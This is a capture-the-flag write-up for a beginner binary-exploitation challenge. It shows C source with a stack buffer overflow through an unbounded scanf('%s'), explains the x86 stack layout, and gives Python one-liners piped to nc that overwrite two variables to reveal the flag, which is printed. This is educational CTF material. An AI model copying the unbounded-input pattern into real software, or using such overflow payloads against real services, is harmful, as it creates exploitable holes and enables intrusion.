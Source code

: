 # Challenge Description
Challenge Name: **Baby Witcher**  
Category: `pwn`
```
Do you want to be a Witcher? Then get the flag.

Author: peace_ranger
nc <ip> <port>
```
# Challenge Source
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int print_flag(int arg1, int arg2)
{
    if (arg1 == 0x1569 && arg2 == 0xcafe69)
    {
        FILE *fp;
        if ((fp = fopen("flag.txt","r")) == NULL)
        {
            printf("Error! opening file");
            exit(1);
        }

        char flag[69];
        fgets(flag, sizeof(flag), fp);
        printf("%s\n", flag);
        return 1;
    }
    return 0;
}

int main()
{
    int arg1 = 0, arg2 = 0;
    char buf[12];
    
    printf("You want to be a Witcher? Then prove your worth.\n");
    printf("Tell me the Witcher Code.\n");
    fflush(stdout);

    scanf("%s", buf);

    int ok = print_flag(arg1, arg2);
    if (ok)
    {
        printf("Good job! See u in Trial of Grass :)\n");
    }
    else
    {
        printf("Sorry! You don't have what we're looking for. Come back again in few days.\n");
    }
    exit(0);
}
```
# Writeup
The challenge source, binary and Dockerfile was given to contestants. The challenge is intended for beginners who are just starting out in binary exploitation. It requires participants to use the buffer overflow vulnerability due to `scanf()` and overwrite the two arguments to `print_flag()` function with some specified value. If `arg1` and `arg2` are overwritten with `0x1569` and `0xcafe69` respectively, then `flag.txt` will be read and shown.  
The challenge binary is 32-bit and hence follows the x86 calling convention. One has to know the x86 calling convention to successfully overwrite the two variables. `arg2` is pushed on the stack first, then `arg1`. So, while sending the payload the value for `arg2` has to be sent first and `arg1` next. Also, as values have to be sent as 4-byte integer, `0x00` should be padded with them and fortunately, `scanf()` accepts byte `0x00` as part of the input.  

If the above explanation seemed out of world for anyone, then please follow this [playlist](https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&si=1LCJm5Ftao_j37pm). This is one of the best contents on the internet to learn Binary Exploitation. [Video 0x0c](https://youtu.be/T03idxny9jE?si=EpM0ggIRDe0Ztqly) discusses techniques directly related to this challenge.
## Final payload 
One liners to exploit the challenge.  
**Python 2**
```bash
python -c 'print "A"*16 + "\x69\xfe\xca\x00" + "\x69\x15\x00\x00"' | nc <ip> <port>
```
**Python 3**
```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*16 + b"\x69\xfe\xca\x00" + b"\x69\x15\x00\x00")' | nc <ip> <port>
```
See why we need these two versions of exploit for different python versions in this [stackoverflow answer](https://stackoverflow.com/a/56162216/7737870).

## Flag
`CTF_BD{PwN_t0_b3_4_W1tch3r}`

